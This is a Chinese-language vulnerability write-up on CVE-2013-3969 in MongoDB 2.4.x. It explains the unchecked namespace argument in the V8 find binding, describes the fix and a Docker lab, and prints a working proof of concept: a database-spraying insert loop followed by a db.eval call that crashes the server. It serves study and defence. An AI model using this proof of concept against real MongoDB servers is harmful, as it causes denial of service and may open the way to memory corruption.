


# CVE-2013-3969 CWE-399 MongoDB 资源管理错误

## 漏洞背景

- **scripting/engine_v8.h** ： MongoDB 源代码中的一个头文件，它主要用于定义和管理 MongoDB 与 Google V8 JavaScript 引擎之间的接口。具体来说，它包含了用于初始化 V8 环境、执行 JavaScript 代码以及管理脚本引擎相关数据结构和函数的声明。在 MongoDB 中，JavaScript 被广泛用于服务器端的脚本执行（例如 `db.eval()` 命令），而这个头文件正是支持这一功能的关键部分。通过集成 V8 引擎，MongoDB 可以在数据库中直接运行 JavaScript 脚本，从而提供更加灵活的查询和数据操作能力。
- **数据库喷射技术：**一种利用数据库漏洞进行攻击的技术。它通过将恶意代码或数据插入数据库，从而干扰数据库的正常运行或获取敏感信息。这种技术通常用于漏洞利用，以达到拒绝服务、数据泄露或任意代码执行等目的。

## 漏洞原理

在 MongoDB 2.4.0 至 2.4.4 版本中，其 JavaScript 脚本引擎使用了 V8 引擎来处理内部的脚本调用。漏洞出现在 **find 原型**（prototype）实现上。攻击者利用该漏洞可以利用恶意构造的 RefDB 对象，触发未初始化指针解引用，从而导致服务器崩溃（DoS）

## 漏洞定位

1、在文件 **src\mongo\scripting\v8_db.cpp** 第 **165** 行的`mongoFind`方法用于在 MongoDB 中执行查询操作。它通过 V8 JavaScript 引擎将 MongoDB 的查询功能暴露给 JavaScript 环境。其中第 **169** 行，`GETNS;` 宏背后会将 `args[0]` 解析成用于数据库查询的“namespace”（例如 `"dbName.collectionName"` 形式）。第 **183** 行的后续调用 `conn->query(ns.get(), …)`中，如果 `ns` 未被正确初始化（由于 `args[0]` 不合法或被恶意构造），则 `ns.get()` 可能返回一个无效指针或指向喷射后的攻击数据，从而触发崩溃或内存破坏。

```cpp
/**
 * JavaScript binding for Mongo.prototype.find(namespace, query, fields, limit, skip)
 */
v8::Handle<v8::Value> mongoFind(V8Scope* scope, const v8::Arguments& args) {
    argumentCheck(args.Length() == 7, "find needs 7 args")
    argumentCheck(args[1]->IsObject(), "needs to be an object")
    DBClientBase * conn = getConnection(args);
    GETNS;   // <-- 这里将args[0]解释为命名空间, 但没有对args[0]类型和内容进行验证
    BSONObj fields;
    BSONObj q = scope->v8ToMongo(args[1]->ToObject());
    bool haveFields = args[2]->IsObject() &&
                      args[2]->ToObject()->GetPropertyNames()->Length() > 0;
    if (haveFields)
        fields = scope->v8ToMongo(args[2]->ToObject());

    v8::Local<v8::Object> mongo = args.This();
    auto_ptr<mongo::DBClientCursor> cursor;
    int nToReturn = (int)(args[3]->ToNumber()->Value());
    int nToSkip = (int)(args[4]->ToNumber()->Value());
    int batchSize = (int)(args[5]->ToNumber()->Value());
    int options = (int)(args[6]->ToNumber()->Value());
    cursor = conn->query(ns.get(), q,  nToReturn, nToSkip, haveFields ? &fields : 0,
                            options, batchSize);
    if (!cursor.get()) {
        return v8AssertionException("error doing query: failed");
    }

    v8::Function* cons = (v8::Function*)(*(mongo->Get(scope->v8StringData("internalCursor"))));

    if (!cons) {
        return v8AssertionException("could not create a cursor");
    }

    v8::Persistent<v8::Object> c = v8::Persistent<v8::Object>::New(cons->NewInstance());
    c->SetInternalField(0, v8::External::New(cursor.get()));
    scope->dbClientCursorTracker.track(c, cursor.release());
    return c;
}
```

2、在第 **36** 行,`GETNS` 宏用于从传入的参数中提取命名空间（namespace）信息，并将其存储在 C++ 的 `char` 数组中。然而这里没有检查 `args[0]` 是否真的是一个字符串，是否为空，或者是否包含非法字符。

```cpp
#define GETNS boost::scoped_array<char> ns(new char[args[0]->ToString()->Utf8Length()+1]); \
              args[0]->ToString()->WriteUtf8(ns.get());
```

源码中导致漏洞的关键原因：**缺少对第一个参数（namespace）进行严格的类型或内容验证，直接使用 `GETNS` 解读并传给 `conn->query`**，利用数据库喷射技术，将大量的特定字节数据写入集合，利用这些数据覆盖内存。当 namespace 参数没有经过验证时，恶意数据可能会被当作合法的字符串传入 GETNS，从而造成了可利用的内存破坏或越界访问。

## 漏洞修复

增加严格的参数类型和内容验证，特别是对 namespace 参数（args[0]）的检查，确保 GETNS 得到一个正确构造的命名空间字符串；同时，对数值参数与对象转换也做了同类检查，从而避免了原版代码中因使用未初始化或非法内存而引起的漏洞。

## 影响版本

MongoDB 2.4.0 至 2.4.4

## 环境搭建

启动 docker 环境，MongoDB 版本为 2.4.4，初始数据库为 test，用户名为 admin，密码为 password



## 漏洞复现

> **漏洞利用思路**：
>  通过插入大量特定二进制块（0x1338 字节长度、含有 `\x05\x7c\x77\x55...`），在 MongoDB 进程的堆或映射文件中留下可控的数据。
>
> **关联 `GETNS`**：
>  当调用 `find("a",...)` 时，如果引擎内对 `args[0]` 解析发生错误或未作检查，就可能从堆中取出这批可控数据当作“namespace”或相关对象来使用，从而引发未初始化指针解引用或覆盖关键指针（典型表现：EIP 覆盖、段错误）。

1、进入容器命令行，使用 mongo 命令直接连接数据库 test

2、执行命令，会在 `my_collection` 集合中插入 30000 条数据，目的是干扰内存布局，为漏洞触发创造条件

```bash
sizechunk=0x1338; chunk=""; for(i=0;i<sizechunk;i++){ chunk+="\x05\x7c\x77\x55\x08\x04\x00\x00"; } for(i=0;i<30000;i++){ db.my_collection.insert({my_chunk:chunk}) }
```

3、执行命令，会调用 `find()`，从而使得恶意 payload 得以执行

```bash
db.eval('Mongo.prototype.find("a",{"b":"c"},"d","e","f","g","h")'); 
```

4、再次查看容器状态，可以看到容器已经退出



## POC分析

```bash
sizechunk=0x1338; chunk=""; for(i=0;i<sizechunk;i++){ chunk+="\x05\x7c\x77\x55\x08\x04\x00\x00"; } for(i=0;i<30000;i++){ db.my_collection.insert({my_chunk:chunk}) }
```

这部分代码构造了一个长达 0x1338 字节（约 4920 字节）的字符串，重复填充特定的二进制数据，然后在 `my_collection` 集合中插入 30000 条记录。这样做的目的是：

- **填充内存**：大量数据插入可能改变内存的分配和布局。
- **触发内存漏洞**：利用内存中数据排列的不确定性，迫使 MongoDB 在后续调用中触发未初始化指针解引用或其他内存相关的错误

```bash
db.eval('Mongo.prototype.find("a",{"b":"c"},"d","e","f","g","h")'); 
```

这行代码利用 `db.eval()` 在服务器端执行 JavaScript。这里调用了 `Mongo.prototype.find` 方法，而该方法在 MongoDB 内部存在漏洞，传入异常参数后可能导致未初始化指针的引用或其他内存破坏问题。

`find("a",{b:"c"},"d","e","f","g","h")` 是故意使用了看似正常的字符串 `"a"` 作为第一个参数，但在“后台”完成对内存的大量喷射后，MongoDB 试图将该参数解释为 namespace 并访问时，就会落到被攻击者填充的无效地址。

## 参考链接

[MongoDB - 'conn' Mongo Object Remote Code Execution - Multiple remote Exploit](https://www.exploit-db.com/exploits/38669)

[mongodb – 通过 databaseSpraying 实现的 RCE – SCRT 团队博客 --- mongodb – RCE by databaseSpraying – SCRT Team Blog](https://blog.scrt.ch/2013/06/04/mongodb-rce-by-databasespraying/)

[在 MongoDB 2...中的 scripting/engine_v8.h 脚本中找到原型... · CVE-2013-3969 · GitHub 安全公告数据库 --- The find prototype in scripting/engine_v8.h in MongoDB 2... · CVE-2013-3969 · GitHub Advisory Database](https://github.com/advisories/GHSA-27xw-phm9-jmx3)

[SERVER-9878 Add type checks to V8 C++ bindings · mongodb/mongo@7c1b35e](https://github.com/mongodb/mongo/commit/7c1b35e0b2cc69c93074c6d1d76879b3ed525f56#diff-a210d8709e758122de7ca2b6d27938c5b09d53bd885ae3015bdf16d964921eae)
